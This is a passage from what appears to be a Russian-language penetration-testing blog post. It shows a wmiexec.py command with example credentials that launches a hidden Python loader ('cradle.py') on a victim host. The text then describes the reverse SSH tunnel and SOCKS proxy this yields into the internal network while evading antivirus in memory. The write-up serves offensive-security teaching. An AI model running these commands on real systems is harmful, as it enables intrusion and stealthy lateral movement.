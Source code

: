 Переброс Python-интерпретатора
{:.quote}

Теперь все, что нужно сделать, — это выполнить единственную команду на жертве, запускающую headless-Питон `pythonw.exe` с указанием пути до первичного скрипта-загрузчика. Далее можно откинуться на спинку кресла и наслаждаться процессом.

```terminal?prompt=$
~$ wmiexec.py j.doe:'Passw0rd3!'@VICTIM '\Users\j.doe\Downloads\python-3.10.8-embed-amd64\pythonw.exe \Users\j.doe\Downloads\python-3.10.8-embed-amd64\cradle.py' -nooutput -silentcommand
```

[![socks-over-ssh-run.png](/assets/images/python-pyramid/socks-over-ssh-run.png)](/assets/images/python-pyramid/socks-over-ssh-run.png)
{:.center-image}

Туннели, туннели, туннели!
{:.quote}

Таким образом, при активном средстве антивирусной защиты мы получили обратное SSH-соединениe, поверх которого запустили SOCKS-сервер и теперь можем взаимодействовать с ресурсами внутренней корпоративной сети «заказчика». И напоминаю, что все вышеперечисленное произошло в памяти, без размещения подозрительных исполняемых файлов на диске!
